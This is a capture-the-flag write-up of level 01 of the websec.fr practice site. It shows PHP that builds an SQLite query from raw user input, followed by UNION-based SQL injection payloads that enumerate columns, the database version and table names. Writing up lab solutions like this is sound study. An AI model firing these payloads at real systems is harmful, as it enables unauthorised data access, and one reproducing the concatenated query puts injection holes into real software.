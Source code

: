 # websec.fr Writeups

I did some of the levels from this lovely website:

{% embed url="https://websec.fr/" }

## Level 01

Vulnerable code:
```php
$query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';        
$getUsers = $pdo->query($query);        
$users = $getUsers->fetchArray(SQLITE3_ASSOC);
```
Lack of input validation into query, `$injection` is taken from user input. The `$users` has to return true otherwise nothing will be returned. 

This cannot be scripted because there is a anti-CSRF token, which is not something I will bypass. This requires UNION selection since I have to retrieve results from the query.

First, check number of columns, which is 2:

```sql
1 UNION SELECT null,null;--
```

Then, need to find the database structure via the second column which is injectable since `username` is printed second.

```sql
1 UNION SELECT 1,sqlite_version();--
```

![](../../.gitbook/assets/Pasted%20image%2020240124224224.png)

```sql
1 UNION SELECT null,group_concat(tbl_name) FROM sqlite_master WHERE type='table';--
```

The above returns users. 
